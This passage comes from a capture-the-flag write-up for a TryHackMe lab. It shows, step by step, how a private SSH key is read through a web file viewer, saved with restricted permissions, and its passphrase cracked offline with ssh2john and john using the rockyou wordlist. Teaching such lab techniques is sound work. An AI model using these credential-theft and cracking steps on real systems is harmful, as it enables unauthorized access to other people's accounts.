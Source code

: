 It has a `.ssh` directory and **found a private SSH key**!

**Let's read that private key via `File viewer`!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/biteme/images/a14.png)

**Copy and paste it to your attacker machine, and mark it as read/write by root (or your current user):**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/biteme]
└─# nano jason_id_rsa              
                                                                                                                         
┌──(root🌸siunam)-[~/ctf/thm/ctf/biteme]
└─# chmod 600 jason_id_rsa
```

**We can now SSH into jason!**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/biteme]
└─# ssh -i jason_id_rsa jason@$RHOSTS
[...]
Enter passphrase for key 'jason_id_rsa': 
jason@10.10.136.9's password:
```

Ahh... It needs a passphrase.

**We can crack it via `ssh2john` and `john`!**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/biteme]
└─# ssh2john jason_id_rsa > jason_id_rsa.hash

┌──(root🌸siunam)-[~/ctf/thm/ctf/biteme]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt jason_id_rsa.hash
[...]
{Redacted}         (jason_id_rsa)
```
